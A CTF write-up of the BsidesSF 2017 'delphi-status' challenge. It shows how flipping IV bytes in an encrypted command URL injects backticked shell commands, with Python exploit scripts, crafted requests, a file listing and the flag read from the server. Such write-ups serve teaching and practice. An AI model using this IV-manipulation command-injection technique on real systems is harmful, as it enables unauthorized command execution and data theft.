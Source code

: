 ```yaml
---
layout: post
title: BsidesSF 2017 - Delphi-Status (web, 250 pts)
author: jeremy
tags: [ctf, bsidessf, web, crypto]
---
```



 * Competition: https://scoreboard.ctf.bsidessf.com/
 * Challenge Name: delphi-status
 * Type: Web / Crypto
 * Points: 250 pts
 * URL: http://delphi-status-e606c556.ctf.bsidessf.net/

<!--more-->

Although it was in the web category, it was more of a crypto challenge. It's a web app that allows you to click links which are obvisouly running system commands:


![](https://i.imgur.com/skpPMdC.png)

The vulnerability can be exploited like a classic padding oracle. However, team TheGoonies took another approach to solve it.

When clicking on the "echo something" link, the requests looks like the following:

```
GET /execute/dc929db8d583f79becbfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
Which returns: This is a longer string that I want to use to test multiple-block patterns
```

We quickly determine that the length of the ciphertext in the request equals exactly 7 blocks of 16 bytes. However the command line echo "the_text" is only 81 bytes, so the IV must be preprended to the command.

What happens if we modify some of the first 16 bytes? We would modify the IV without breaking the actual decryption. For example, let's try and change the 9th byte. This should correspond to the letter i in echo `"This is.....`

So we will change `\xec` to `\x00`:

```
GET /execute/dc929db8d583f79b00bfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
```

That returns: Th\x85s is a longer string that I want to use to test multiple-block patterns

What does it tell us? That if we want to include an arbitrary character X in the decrypted text, we just have to XOR X with `\x85`! Let's confirm that by trying to include the letter 'A' in the output text. We will change the 8th byte to `\x41` ^ `\x85` (`\xc4`):

```
GET /execute/dc929db8d583f79bc4bfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
```

Response: **ThAs is a longer string that I want to use to test multiple-block patterns**

We're on track! So let's repeat that process for a length of 8 bytes (bytes 9 to 16). We use the simple script below, but it's easily done manually.

```python
block_1 = 'dc929db8d583f79b'
block_2 = '00' * 8
other_blocks = '80aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949'
res = requests.get('http://delphi-status-e606c556.ctf.bsidessf.net/execute/%s' % block_1 + block_2 + other_blocks).content

decrypted_block = res[7:15]
sys.stdout.write(decrypted_block)
```

```bash
$ python script.py  | xxd
00000000: 85cc c066 1cc1 1f16
```

So we know that the decrypted block when xored with zeros is `\x85\xcc\xc0\x66\x1c\xc1\x1f\x16`, which means we can control 8 bytes of decrypted text. Lucky for us, it's enough to create a payload that will let us execute commands! we can use the back ticks to escape from the echo and run arbitrary commands.

Finally, we can solve the challenge like this:

```python
# Note: the argument must be exacly 6 bytes, + 2 backticks
assert len(sys.argv[1]) == 6
payload = '`%s`' % sys.argv[1]
decrypted_block = '\x85\xcc\xc0\x66\x1c\xc1\x1f\x16'

block_1 = 'dc929db8d583f79b'
other_blocks = '80aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949'

x = xor(decrypted_block, payload).encode('hex')
print requests.get('http://delphi-status-e606c556.ctf.bsidessf.net/execute/%s' % block_1 + x + other_blocks).content
```

File listing:

```bash
$ python script.py "ls  -l"
< pre>Thtotal 16
-rw-r--r-- 4 root root   71 Feb 12 03:11 Gemfile
-rw-r--r-- 4 root root  329 Feb 12 03:11 Gemfile.lock
-rw-r--r-- 4 root root 1746 Feb 12 03:11 app.rb
-rw-r--r-- 4 root root   38 Feb 12 03:11 flag.txtlonger string that I want to use to test multiple-block patterns</pre>
```

Get the flag:

```bash
$ python script.py "cat f*"
< pre>ThFLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3longer string that I want to use to test multiple-block patterns</pre>
```